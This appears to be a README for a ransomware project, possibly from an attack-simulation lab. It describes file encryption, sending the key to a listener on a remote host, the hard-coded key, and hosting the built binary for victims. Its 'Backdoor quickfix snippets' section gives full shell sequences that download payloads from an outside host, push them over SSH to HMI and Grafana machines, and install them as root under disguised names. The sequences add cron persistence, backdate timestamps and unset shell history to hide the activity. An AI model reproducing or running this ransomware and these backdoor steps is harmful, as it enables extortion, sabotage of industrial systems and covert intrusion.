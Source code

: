 # Ransomware
The ransomware encrypts all files found in target_dirs with a static aes key. Before encryption the key is sent via network to tcp://host:port, if the server is unreachable then encprytion is triggered after 10 seconds of timeout. After encryption is done, a message pops up. For this the current user and X sessions are evaluated via who.

If no X-Server is found there are some exceptions.

## Distribution to victims
Attacker 1 hosts the compiled ransomware in the apache path: /var/www/html.

The ransomware variable need to be edited so that the host vaiable points to attacker 0. A ncat listener will be available on port 80 to get the keys from the victims.

## Variables
Please configure this varialbes within __main__.py

```
live=True
target_root='/'
host = '240.64.78.32'
port = 80
target_dirs = ['/home/manuel/Downloads/test',
]
```

## Key
The key (rkey) is static and sent in Caesar chiffre (10) to the server. You can find the static key as rkey in the source code.

The key used for encrpytion doing Caesar twice ... c(c(k, 10), 13) the real key "1a5b201y65c06x9x5799zz2xbcb77137" after the double chifre.


## Messages & GUI
Messages are planted on disk in every encrypted folder. You can edit them: start_encrypt -> message. The pictures and text for the fullscreen message are also editable under mainwindow -> photo_code, mainwindow -> message".

You can find a decrypt tool as well, which currently only supports gui.

## Static compile
```
pyinstaller -F -n ransomware --clean -y -p . ransomware/__main__.py
```
install "apt install libxcb-image0" as well.


## Backdoor quickfix snippets
```
#---- X SESSION OT 
#curl http://240.70.26.128:80/stopthepump -o  /home/ait/stopthepump2

cd /opt/ot_attack
. /opt/ot_attack/config
#mv /home/ait/stopthepump2 /opt/ot_attack/irabalance
scp -o "StrictHostKeyChecking=no" -i hmi-ssh.key /opt/ot_attack/irabalance apdias@$LAPTOP_IP:/tmp/irabalance
ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$LAPTOP_IP

sudo -i
mv /tmp/irabalance /usr/sbin/irabalance
chmod +x /usr/sbin/irabalance
chown root.root /usr/sbin/irabalance
touch -a -m -t 202012180130.09 /usr/sbin/irabalance
unset HISTFILE
unset HISTFILESIZE
echo "10 13 * * *   root    /usr/sbin/irabalance 127.0.0.1" >> /etc/cron.d/popularity-contest
touch -a -m -t 202012180130.09 /etc/cron.d/popularity-contest

/usr/sbin/irabalance 240.64.78.32
exit
unset HISTFILE
unset HISTFILESIZE
cat /etc/cron.d/popularity-contest
exit

#----
ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$LAPTOP_IP
unset HISTFILE
unset HISTFILESIZE
cat /etc/cron.d/popularity-contest
ls -al /usr/sbin/irabalance
exit



/var/lib influxdb  grafana




#---- 

curl http://240.70.26.128:80/stopthepumpnox -o  /home/ait/stopthepump 

cd /opt/ot_attack
. /opt/ot_attack/config
mv /home/ait/stopthepump /opt/ot_attack/ircbalance
scp -o "StrictHostKeyChecking=no" -i hmi-ssh.key /opt/ot_attack/ircbalance apdias@$HMI_IP:/tmp/ircbalance
ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$HMI_IP

sudo -i
systemctl stop docker.service
mv /tmp/ircbalance /usr/sbin/ircbalance
chmod +x /usr/sbin/ircbalance
chown root.root /usr/sbin/ircbalance
touch -a -m -t 202012180130.09 /usr/sbin/ircbalance
unset HISTFILE
unset HISTFILESIZE
echo "10 13 * * *   root    /usr/sbin/ircbalance 127.0.0.1" >> /etc/cron.d/popularity-contest
touch -a -m -t 202012180130.09 /etc/cron.d/popularity-contest
/usr/sbin/ircbalance 240.64.78.32 &

exit
unset HISTFILE
unset HISTFILESIZE
cat /etc/cron.d/popularity-contest
exit

#---
#curl http://240.70.26.128:80/stopthepumpnox -o  /home/ait/stopthepump 

cd /opt/ot_attack
. /opt/ot_attack/config
#mv /home/ait/stopthepump /opt/ot_attack/ircbalance
scp -o "StrictHostKeyChecking=no" -i hmi-ssh.key /opt/ot_attack/ircbalance apdias@$GRAFANA_IP:/tmp/ircbalance
ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$GRAFANA_IP

sudo -i
mv /tmp/ircbalance /usr/sbin/ircbalance
chmod +x /usr/sbin/ircbalance
chown root.root /usr/sbin/ircbalance
touch -a -m -t 202012180130.09 /usr/sbin/ircbalance
unset HISTFILE
unset HISTFILESIZE
echo "10 13 * * *   root    /usr/sbin/ircbalance 127.0.0.1" >> /etc/cron.d/popularity-contest
touch -a -m -t 202012180130.09 /etc/cron.d/popularity-contest
/usr/sbin/ircbalance 240.64.78.32 &

exit
unset HISTFILE
unset HISTFILESIZE
cat /etc/cron.d/popularity-contest
exit


ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$HMI_IP sudo systemctl restart PulseSecure.service
ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key apdias@$GRAFANA_IP sudo systemctl restart PulseSecure.service

```
